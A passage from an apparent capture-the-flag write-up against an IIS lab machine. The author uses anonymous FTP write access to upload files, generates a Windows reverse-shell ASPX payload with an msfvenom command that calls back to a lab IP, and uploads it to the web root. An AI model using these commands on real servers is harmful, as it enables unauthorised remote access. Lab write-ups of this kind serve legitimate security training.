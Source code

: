 ```
ftp> 
```

To login I used the following credentials "anonymous:Anything" and I have the right to list files/directories, nice, can I write also ?

First I created a html test file :

```
echo "<h1>test</h1>" > test.html
```

Then over the ftp I used the command "put <file>" to upload my newly created file.

```
ftp> put test.html
local: test.html remote: test.html
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
15 bytes sent in 0.00 secs (36.6211 kB/s)
```

 It seems to work ! Let's go see if I can view it.

![Website IIS](/assets/imgs/devel/test_html.PNG)

I can upload files as I want, nice ! So now let's upload a reverse shell !

## Exploit

------

For a reverse shell I used msfvenom and "aspx" extension because it's IIS.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 -f aspx > shell.aspx
```

Upload the reverse shell :

```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2746 bytes sent in 0.00 secs (6.9280 MB/s)
```
